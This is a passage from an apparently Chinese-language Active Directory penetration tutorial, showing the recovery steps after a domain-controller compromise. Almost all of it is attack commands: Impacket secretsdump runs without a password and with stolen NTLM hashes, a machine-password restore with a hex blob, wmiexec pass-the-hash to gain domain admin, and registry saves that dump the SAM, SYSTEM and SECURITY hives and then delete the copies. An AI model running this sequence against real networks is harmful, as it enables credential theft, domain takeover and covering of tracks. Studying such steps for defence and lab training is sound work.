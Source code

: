 ```
secretsdump.py -no-pass cgdomain.com/'DC2008$'@10.211.55.200 -history -just-dc-user administrator
secretsdump.py -no-pass cgdomain.com/administrator@10.211.55.200 -hashes aad3b435b51404eeaad3b435b51404ee:3add1560657a19b3166247eb3eb149ae
```

[![img](域渗透一条龙/images/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67.png)](https://camo.githubusercontent.com/d94bd9f15fb2db6a2b99b7463de0674117fb227d731c7d0d8526ee66bb66961d/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303335392e706e67)

获取到旧的密码明文hex，还原

```
python restorepassword.py cgdomain.com/DC2008@DC2008 -target-ip 10.211.55.200 -hexpass 59958639cbdd4523de5d42b01adb0e256e0d39aef14c8eef31f4c078862109f253bbb7b3817ab123d013856c028fa4993f5f5b9a830a3a98d87483b29df3fb55082a1f464b19220a2c04f6605d2d321a04afbb551f8f19a13d399f9f5af2aa23c5b76b49001033516fefd90cb0348256e8282b22cbf9e70d82a8b8d2916d578246e288af3af727533d36ad8950fe1c513771377d98a947c4a8eae2b581a74b6687a2e533b7e89e8d03c2e6c2123d519489869a6e33d3a8884be33107060b62e2852502261f48c097ddb68750cc55b7688cc951441cf02989a307f55c008e978edbaf31766d17b53505016c7580cb480b
```

[![img](域渗透一条龙/images/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67.png)](https://camo.githubusercontent.com/206012e6d64974e4fda0704c8f1334e777a44f37f7b517e7d8776fbb79921e3f/68747470733a2f2f626c6f67706963732d313235313639313238302e66696c652e6d7971636c6f75642e636f6d2f696d67732f32303230303931363139303435372e706e67)

恢复方法2

通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)

```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38
```

然后分别执行,拷贝本机中SAM数据库到本地

```
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save
```

提取明文hash
